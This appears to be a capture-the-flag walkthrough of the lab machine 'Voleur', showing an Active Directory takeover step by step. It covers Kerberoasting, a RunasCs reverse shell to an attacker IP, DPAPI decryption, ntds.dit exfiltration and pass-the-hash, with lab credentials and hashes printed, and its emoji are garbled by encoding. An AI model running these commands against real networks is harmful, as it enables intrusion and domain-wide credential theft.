


üîí Voleur
Enumeration
üîç 1. Initial Enumeration ‚Äì Nmap
I started with a comprehensive port scan to identify running services:
nmap -p- --min-rate 10000 -vv 10.10.11.76| Port | Service Name | Description |
|---|---|---|
| 53 | domain (DNS) |
Domain Name System – used for name resolution. |
| 88 | kerberos-sec |
Kerberos authentication – core to AD logins. |
| 389 | ldap |
LDAP – used for querying Active Directory. |
| 445 | microsoft-ds |
SMB – file sharing, remote admin, AD communication. |
| 5985 | wsman |
WinRM – remote Windows management (over HTTP). |
| 2222 | SSH (Custom) | Custom SSH service, likely WSL. |
The scan revealed a Windows Active Directory environment with domain VOLEUR.HTB.
üîê 2. SMB Authentication Testing
Initial enumeration using the provided credentials ryan.naylor:HollowOct31Nyt:
Standard SMB access was denied, indicating additional authentication mechanisms required.
⏰ 3. Time Synchronization
sudo ntpdate voleur.htb
üé´ 4. LDAP with Kerberos Authentication
Standard NTLM authentication failed with STATUS_NOT_SUPPORTED, but Kerberos worked:
nxc ldap voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k
üë• 5. Domain User Enumeration
nxc ldap voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --users
üìÅ 6. SMB Share Enumeration via Kerberos

Using Kerberos authentication, I accessed SMB shares:
smbclient.py -k dc.voleur.htbAvailable shares:
- ✅ IT – Accessible with
First-Line Support/subfolder - ✅ SYSVOL/NETLOGON – Standard AD shares
- ❌ HR/Finance – Access denied
üìÑ 7. Excel File Discovery
Found Access_Review.xlsx in the IT First-Line Support directory:


Credential Discovery
üîì 8. Excel Password Cracking

Extracted and cracked the Excel password:
office2john Access_Review.xlsx > hash.txt
john hash.txt --show
üìä 9. Excel Analysis - Critical Findings
| Account | Purpose | Password |
|---|---|---|
svc_ldap |
LDAP Services | M1XyC9pW7qT5Vn |
svc_iis |
IIS Administration | N5pXyW1VqM7CZ8 |
Additional findings:
- Ryan Naylor: Kerberos Pre-Auth disabled (AS-REP Roasting target)
- Deleted Account: tess.maffe with password
NightT1meP1dg3on14
ü߆ 10. BloodHound Analysis
bloodhound-python -u 'ryan.naylor' -p 'HollowOct31Nyt' -d voleur.htb -c All -ns 10.10.11.76 -k --zip
Key attack paths identified:
SVC_LDAPhas WriteSPN onSVC_WINRM→ Kerberoasting opportunitySVC_LDAPin RESTORE_USERS → Can restore deleted AD objects- Multiple GenericWrite permissions for privilege escalation
User Access

üîë 11. Service Account Authentication
impacket-getTGT voleur.htb/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.10.11.76
export KRB5CCNAME=svc_ldap.ccache⚔️ 12. Kerberoasting Attack
python3 targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htbSuccessfully retrieved hashes for:
lacey.millersvc_winrm

üîì 13. Hash Cracking
hashcat -a 0 voleurhash.txt /usr/share/wordlists/rockyou.txt
⚙️ 14. Kerberos Configuration
sudo tee /etc/krb5.conf >/dev/null <<'EOF'
[libdefaults]
default_realm = VOLEUR.HTB
dns_lookup_kdc = false
[realms]
VOLEUR.HTB = {
kdc = dc.voleur.htb
admin_server = dc.voleur.htb
}
[domain_realm]
.voleur.htb = VOLEUR.HTB
voleur.htb = VOLEUR.HTB
EOFüåê 15. WinRM Shell Access
impacket-getTGT voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi' -dc-ip 10.10.11.76
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -u svc_winrm -r voleur.htb
 

Privilege Escalation
üîÑ 16. Lateral Movement to svc_ldap
Used RunasCs to pivot to svc_ldap (member of RESTORE_USERS):

.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.16.28:3000

üóëÔ∏è 17. Deleted Object Recovery
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects

Found deleted user: Todd Wolfe
Get-ADObject -Filter 'isDeleted -eq $true -and Name -like "*Todd Wolfe*"' -IncludeDeletedObjects | Restore-ADObjectüé´ 18. Todd Wolfe Access
impacket-getTGT VOLEUR.HTB/todd.wolfe:'NightT1meP1dg3on14' -dc-ip 10.10.11.76
export KRB5CCNAME=todd.wolfe.ccache
üîê 19. DPAPI Credential Extraction
Discovered DPAPI files in Todd's archived profile:
Downloaded credential files:
- Master Key:
08949382-134f-4c63-b93c-ce52efc0aa88 - Credential Blob:
772275FAD58525253490A9B0039791D3
Decrypted master key:
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14Extracted stored credential:
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key [decrypted_key]üêß 20. WSL Access Discovery
Jeremy's Third-Line Support directory contained:
id_rsa- SSH private keyNote.txt.txt- WSL configuration note
ssh -i id_rsa svc_backup@voleur.htb -p 2222
üíé 21. NTDS Database Exfiltration
Located Active Directory backups in WSL:
/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM
scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" .
scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" .üëë 22. Domain Takeover
secretsdump.py -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
Extracted Administrator hash:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::Final access with extracted hash:
impacket-getTGT voleur.htb/Administrator -hashes :e656e07c56d831611b577b160b259ad2 -dc-ip 10.10.11.76
export KRB5CCNAME=Administrator.ccache
evil-winrm -i dc.voleur.htb -u Administrator -r voleur.htb
Attack Chain Summary
This writeup demonstrated a complex Active Directory attack involving multiple privilege escalation vectors:
ryan.naylor (Initial Creds)
→ Kerberos Authentication
→ Excel File Discovery
→ Service Account Creds (svc_ldap)
→ Kerberoasting Attack
→ svc_winrm Compromise
→ Lateral Movement to svc_ldap
→ Deleted Object Recovery (todd.wolfe)
→ DPAPI Credential Extraction
→ jeremy.combs Compromise
→ WSL SSH Access
→ NTDS Database Exfiltration
→ Administrator Hash
→ Domain Admin AccessKey Techniques Demonstrated
- Kerberos Authentication: Bypassing NTLM restrictions using Kerberos tickets
- Office Document Analysis: Extracting credentials from password-protected Excel files
- Kerberoasting: Extracting and cracking service account passwords
- Active Directory Restoration: Recovering deleted user accounts for privilege escalation
- DPAPI Exploitation: Decrypting Windows stored credentials from archived profiles
- WSL Abuse: Leveraging Windows Subsystem for Linux for backup file access
- NTDS Database Extraction: Complete domain takeover through database analysis
Tools Used
- Nmap: Network reconnaissance and service enumeration
- NetExec (nxc): Active Directory enumeration and authentication testing
- BloodHound: Active Directory relationship analysis and attack path discovery
- office2john + John: Office document password cracking
- targetedKerberoast.py: Selective Kerberoasting attacks
- hashcat: Hash cracking for service account passwords
- impacket suite: Kerberos ticket management and DPAPI decryption
- RunasCs: Privilege escalation and lateral movement
- secretsdump.py: NTDS database analysis and hash extraction
- Evil-WinRM: Remote PowerShell access
Critical Vulnerabilities Exploited
- Weak Password Protection: Easily crackable Excel file password
- Credential Exposure: Service account passwords stored in documentation
- Excessive Privileges: Service accounts with dangerous Active Directory permissions
- Improper Backup Security: Critical AD databases accessible through WSL
- DPAPI Weaknesses: Archived user profiles containing decryptable credentials
- Deleted Object Retention: Sensitive accounts recoverable from AD recycle bin
- Implement proper backup security and access controls
- Regular audit of service account privileges and permissions
- Monitor for unusual Active Directory modifications and restorations
- Secure credential storage practices and avoid documentation exposure
- Implement proper DPAPI key management and user profile cleanup
- Enable Advanced Threat Protection for Kerberoasting detection